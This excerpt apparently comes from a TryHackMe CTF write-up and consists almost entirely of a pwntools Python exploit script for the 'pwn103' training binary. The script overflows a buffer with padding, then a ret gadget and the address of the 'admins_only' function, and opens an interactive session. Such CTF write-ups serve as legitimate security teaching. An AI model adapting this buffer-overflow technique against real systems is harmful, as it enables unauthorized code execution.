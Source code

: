 ```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

elf = ELF('./pwn103.pwn103')

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([elf] + argv, *a, **kw)

io = start()

exploit  = b''
exploit  += b"\x90"*40
#exploit  += pack("<I", 0x401016)
#exploit  += pack("<I", 0x0000000000401554)

exploit  += p64(0x401016)
exploit  += p64(elf.symbols['admins_only'])

print(io.recv().decode('utf-8'))
io.sendline('3')
print(io.recv().decode('utf-8'))
io.sendlineafter(b"[pwner]:",exploit)
print(io.recv().decode('utf-8'))

io.interactive()
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2014.png)
